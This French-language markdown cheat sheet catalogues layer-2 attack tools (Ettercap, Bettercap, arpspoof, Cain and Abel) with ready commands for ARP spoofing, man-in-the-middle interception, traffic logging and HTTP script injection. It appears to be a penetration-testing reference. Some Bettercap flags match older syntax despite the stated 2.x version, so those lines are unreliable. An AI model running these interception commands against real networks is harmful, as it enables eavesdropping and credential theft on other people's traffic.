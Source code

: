 # Couche 2 (Liaison) – Attaques et Outils

**Version Testée :**
- Ettercap 0.8.x
- Bettercap 2.x
- Arpspoof (dsniff)
- Cain and Abel (Windows)

**Description :**  
Ce document recense les outils et attaques disponibles pour la couche Liaison du modèle OSI. La couche 2 gère le contrôle d’accès au média et la transmission des trames sur le réseau local.  
Les attaques typiques incluent le spoofing ARP, les attaques MITM (Man-In-The-Middle) et l’injection de paquets.  
---

### Outil: Ettercap
**Description :**  
Ettercap est un outil puissant pour l'interception de trafic et l'exécution d'attaques MITM par ARP spoofing. Il permet de capturer, modifier et injecter du trafic réseau en temps réel.

#### Attaque: ARP Spoofing / MITM
*Détails de l'attaque :*  
Positionner l'attaquant entre la victime et la passerelle pour intercepter le trafic réseau.

##### Commandes Clés

###### Commande: Lancer Ettercap en mode texte
```bash
ettercap -T
```
Détails :
- Utilisation en mode texte pour l'interception.

###### Commande: ARP Spoofing ciblé
```bash
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.2//
```
Détails :
- Cibler la passerelle (192.168.1.1) et la victime (192.168.1.2).

###### Commande: Sniffer et logger
```bash
ettercap -T -M arp -i eth0 -L logfile
```
Détails :
- Enregistrer le trafic sur l'interface eth0.

#### Attaque: Injection de paquets HTTP
*Détails de l'attaque :*  
Modifier en temps réel le trafic HTTP non chiffré pour injecter du code malveillant.

##### Commandes Clés

###### Commande: Injection de scripts HTTP
```bash
ettercap -T -M arp:remote -i eth0 -F filter.ec
```
Détails :
- Utilise un fichier de filtre (filter.ec) pour modifier le trafic HTTP.

---

### Outil: Bettercap
**Description :**  
Bettercap est un framework moderne de MITM et d'analyse réseau, offrant une interface web et des modules extensibles pour diverses attaques sur le réseau local.

#### Attaque: ARP Spoofing avancé
*Détails de l'attaque :*  
Manipuler les tables ARP pour rediriger le trafic d'une cible vers l'attaquant.

##### Commandes Clés

###### Commande: Lancer Bettercap en mode interactif
```bash
bettercap -I eth0
```
Détails :
- Utilisation de l'interface eth0.

###### Commande: Exécuter un caplet ARP spoofing
```bash
bettercap -X -caplet arp.spoof
```
Détails :
- Utilise le caplet "arp.spoof" pour lancer l'attaque.

#### Attaque: Sniffing de paquets
*Détails de l'attaque :*  
Capturer et analyser le trafic réseau pour détecter des vulnérabilités ou informations sensibles.

##### Commandes Clés

###### Commande: Capture de paquets en temps réel
```bash
bettercap -X -I eth0
```
Détails :
- Affichage en temps réel des paquets.

---

### Outil: Arpspoof (dsniff)
**Description :**  
Arpspoof, issu du paquet dsniff, est un outil simple pour effectuer du spoofing ARP et détourner le trafic dans un LAN.

#### Attaque: Détournement ARP simple
*Détails de l'attaque :*  
Rediriger le trafic réseau d'une cible en falsifiant les réponses ARP.

##### Commandes Clés

###### Commande: Spoofing vers la cible
```bash
arpspoof -i eth0 -t 192.168.1.2 192.168.1.1
```
Détails :
- Cible : 192.168.1.2, passerelle : 192.168.1.1.

###### Commande: Spoofing vers la passerelle
```bash
arpspoof -i eth0 -t 192.168.1.1 192.168.1.2
```
Détails :
- Inverse la cible pour rediriger le trafic dans les deux sens.

---

### Outil: Cain and Abel
**Description :**  
Cain and Abel est un outil de récupération de mots de passe pour Windows, qui inclut des fonctionnalités d'ARP spoofing et de capture de trafic (interface graphique).

#### Attaque: ARP Spoofing et capture d'identifiants
*Détails de l'attaque :*  
Utiliser Cain and Abel pour réaliser du spoofing ARP et récupérer des informations sensibles via l'interface graphique.

##### Commandes Clés

###### Commande: Lancer Cain and Abel
```bash
# Démarrer Cain and Abel via l'interface Windows.
```
Détails :
- Utiliser l'interface graphique pour lancer l'attaque et récupérer les identifiants.
```